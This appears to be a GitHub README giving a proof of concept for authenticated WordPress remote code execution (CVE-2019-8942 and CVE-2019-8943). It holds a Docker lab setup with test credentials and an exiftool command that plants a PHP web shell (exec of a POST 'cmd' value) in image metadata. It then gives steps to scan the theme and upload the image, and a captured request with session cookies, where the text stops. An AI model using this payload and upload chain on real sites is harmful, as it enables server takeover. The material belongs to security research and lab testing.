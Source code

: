 # Summary
A simple PoC for WordPress RCE (author priviledge), refer to CVE-2019-8942 and CVE-2019-8943.

# Affected Version
* WordPress <= 4.9.8 (verified)
* WordPress <= 5.0.0

# Test Environment
## Docker Image
* `docker pull avfisherdocker/wordpress:4.9.8`
* `docker run -d -p 80:80 avfisherdocker/wordpress:4.9.8`

## Mysql & WordPress Info
|Type|Username|Password|
|---|---|---|
|mysql|root|root|
|wordpress|admin|admin4wp498
|wordpress|author|author4wp498

# Proof of Concepts

#### 1. Start Burp to intercept the traffic

#### 2. Create malicous image file in `poc.jpg` by exiftool
* `exiftool poc.jpg -documentname="<?php echo exec(\$_POST['cmd']); ?>"`

#### 3. Detect current theme by WPScan
* `wpscan -u <URL> -et`, e.g. `twentyseventeen` as default in wordpress 4.9.8

#### 4. Upload the payload image file `poc.jpg`
* Login the `author` account;
* Click `Media` - `Add New` in the Dashboard to upload `poc.jpg` file;
* Select the uploaded picture and click `Edit more details` - `Update`;
* Check in Burp you will see a POST request `/wp-admin/post.php` similar as below and then send it to Repeater:

```
POST /wp-admin/post.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://34.211.248.202/wp-admin/post.php?post=6&action=edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 832
Cookie: wordpress_9f977c8ffc2c97b0c848277689037ed1=author%7C1551298764%7CkwllUoWifopUBYobsNWYqsJTJ1tnI3enLdT6Hx4GdoR%7Cc9a1b8db83347d7e7893f8b871033a3cf8c8d90c0164b9e293e397a46da02df8; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_9f977c8ffc2c97b0c848277689037ed1=author%7C1551298764%7CkwllUoWifopUBYobsNWYqsJTJ1tnI3enLdT6Hx4GdoR%7Cd0d730cf25331c60b4c2ff475f5d9b38ed95d308dcc3452eba307eaa6367d9d8; wp-settings-time-2=1551126207
Connection: close
Upgrade-Insecure-Requests: 1

```